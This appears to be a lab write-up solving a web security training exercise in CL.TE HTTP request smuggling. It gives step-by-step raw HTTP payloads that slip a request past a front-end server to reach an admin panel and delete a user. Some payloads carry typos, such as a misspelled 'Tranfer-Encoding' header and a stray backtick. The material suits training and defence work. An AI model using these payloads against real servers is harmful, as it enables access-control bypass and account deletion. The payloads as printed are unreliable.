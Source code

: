 # Exploiting HTTP request smuggling to bypass front-end security controls, CL.TE vulnerability

## This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding. There's an admin panel at `/admin`, but the front-end server blocks access to it.

## To solve the lab, smuggle a request to the back-end server that accesses the admin panel and deletes the user `carlos`

### step1

send homepage (/) to repeater
change get request to post request
test payload

```
Tranfer-Encoding: chunked

0
GET /post?postId=5 HTTP/1.1
foo: x
```

![screenshot](./images/images_lab5/lab6_homepage_into_repeter_test_payload.png)

### step2

try to access admin

```
Tranfer-Encoding: chunked

0
GET /admin HTTP/1.1`
foo: x
```

![screenshot](./images/images_lab5/lab6_access_admin_page.png)

### step3

add payload

```
Tranfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 12

x=1
0
```

![screenshot](./images/images_lab5/lab6_testing_admin_payload.png)

### step4

```
0

GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 12

x=1
0
```

![screenshot](./images/images_lab5/lab6_testing_payload_to_delete_carlos_account.png)

### step5

send request

![screenshot](./images/images_lab5/lab6_delete_carlos_account.png)

### step6

lab solved

![screenshot](./images/images_lab5/lab6_test_to_access_admin.png)
